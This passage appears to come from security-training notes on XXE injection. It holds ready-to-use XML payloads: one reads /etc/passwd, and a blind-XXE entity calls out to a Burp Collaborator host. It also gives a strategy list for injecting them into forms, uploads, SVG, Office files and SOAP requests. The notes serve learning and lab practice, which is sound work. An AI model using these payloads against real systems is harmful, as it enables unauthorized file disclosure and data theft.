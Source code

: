 Generally, it is sufficient to disable resolution of external entities and disable support for XInclude. This can usually be done via configuration options or by programmatically overriding default behavior. Consult the documentation for your XML parsing library or API for details about how to disable unnecessary capabilities.

## XXE Payloads

Defining a `ENTITY` called `name` and assigning it a value `feast`. Later we are using that ENTITY in our code.

```xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>xml
```

We can also use XXE to read some file from the system by defining an ENTITY and having it use the SYSTEM keyword

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

Here again, we are defining an ENTITY with the name `read` but the difference is that we are setting it value to \`SYSTEM\` and path of the file.

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection" %}

## Exploiting XXE Strategy

* Place XML Payloads in input fields and URL parameters i.e. Login forms.
* Upload an XML payload file wherever possible.
* Intercept the request and look for any kind of XML data format.
* Replace found XML content with XML payloads.
* Use Python or Burp Collaborator as a web server to look for Blind XXE
  * `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "burp collaborator URL"> ]`

## Increasing Attack Surface

* SVG is just XML describing images
  * Wherever we can upload an image --> XXE if svg is possible
* DOCX/XLSX can also be used for XXE
  * [https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/](https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/)
* SOAP Requests are also just XML requests

## PortSwigger Labs
